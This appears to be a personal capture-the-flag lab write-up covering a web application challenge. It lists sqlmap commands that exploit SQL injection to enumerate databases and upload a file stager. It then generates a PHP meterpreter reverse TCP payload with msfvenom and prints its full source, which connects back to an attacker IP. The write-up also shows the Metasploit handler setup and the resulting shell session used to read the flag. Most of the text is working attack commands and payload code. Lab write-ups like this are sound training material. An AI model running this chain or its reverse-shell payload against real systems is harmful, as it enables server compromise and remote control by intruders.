 
## SQL Injection
https://www.hackingarticles.in/shell-uploading-in-web-server-using-sqlmap/

- Copy the following response as save it as **r.txt**.
```
GET /api.php?documentid=1&apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD HTTP/1.1
Host: <MACHINE IP>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=uafomq8a14mf4lkb7pktbrgt69
Connection: close
Upgrade-Insecure-Requests: 1
```

- Make sure you change the host IP address before saving it.

### Get Databases
- Launch the sqlmap with the following command.
```
sqlmap -r r.txt --dbs --batch
```

> available databases [5]:
> [*] information_schema
> [*] myfirstwebsite
> [*] mysql
> [*] performance_schema
> [*] sys


### Create a SQL upload page

```
$ sqlmap -r r.txt -D myfirstwebsite --os-shell
```

Select PHP (option 4), ‘no’ option and then brute-force (option 4).

Which web application language does the web server support?
> [1] ASP
> [2] ASPX
> [3] JSP
> [4] PHP (default)
> <span style="background:#ff4d4f">4</span>
do you want sqlmap to further try to provoke the full path disclosure? [Y/n] <span style="background:#ff4d4f">n</span>
[14:53:33] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs, /usr/local/var/www') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> <span style="background:#ff4d4f">4</span>

Use any additional custom directories [Enter for None]:
Enter **/var/www/html** as custom directory.

> [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://10.10.232.223:80/tmpuuuxb.php

### Visit the site
![[uploader.png]]



## Generate a reverse shell using msfvenom

```
$ msfvenom -p php/meterpreter/reverse_tcp lhost=<tunnel IP> lport=4445 -f raw
```

[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1111 bytes

---

```
<?php /**/ error_reporting(0); $ip = '10.8.40.30'; $port = 4445; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();`</font>
```

---

- Copy the above code and save it as shell.php. 

- After that, upload the shell.php using the sqlmap uploader.
	![[shell.png]]


### Metasploit
Open up msfconsole and set the following options:

```
msf> use multi/handler
msf exploit(handler) > set lport 4445
msf exploit(handler) > set lhost tun0
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
msf exploit(handler) > exploit
```

### Trigger the reverse shell
Visit  http://Machine_IP/shell.php


## Meterpreter

[*] Started reverse TCP handler on 10.8.40.30:4445                                  
[*] Sending stage (39927 bytes) to 10.10.136.85                                     
[*] Meterpreter session 1 opened (10.8.40.30:4445 -> 10.10.136.85:59092) at 2024-04-10 13:31:43 -0400                                                                   

meterpreter > shell

`cd ..`
`ls`
`cat flat.txt`

The flag is {FLAG:Webapp:48a5f4bfef44c8e9b34b926051ad35a6}

**Next step:** [[5. What is the flag in the "root" directory of router1? {FLAG Router1 XXX}]]
